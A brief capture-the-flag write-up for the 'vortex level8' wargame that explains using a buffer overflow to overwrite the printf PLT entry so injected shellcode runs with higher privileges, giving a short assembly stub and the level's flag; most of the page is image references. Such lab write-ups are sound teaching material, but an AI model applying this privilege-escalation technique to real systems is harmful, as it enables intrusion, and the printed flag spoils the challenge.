




# vortex level8 Solution

in this level we can use buffer overflow to inject our code
.

the safe function below:
.

while the unsafe function:
.

as you can see we can use buffer overflow to inject our code, however, the code drops our privileges before execute the unsafe function. 

we will modify the `plt_print` and then, in the safe code which runs with the higher privileges, we will execute our shellcode.

this will be our shellcode that'll be in the return address of the unsafe function:
```
mov eax, plt_printf_address
mov ebx, shellcode_address
mov [eax], ebx

push 1
pop eax 
int 0x80  => exit()
```

```py
% scripts/shellcode.py
```


```py
% scripts/level8.py
```
.
so, modify `shellcode_address`, and execute those lines:

.

**Flag:** ***`hCuwrgfqn`***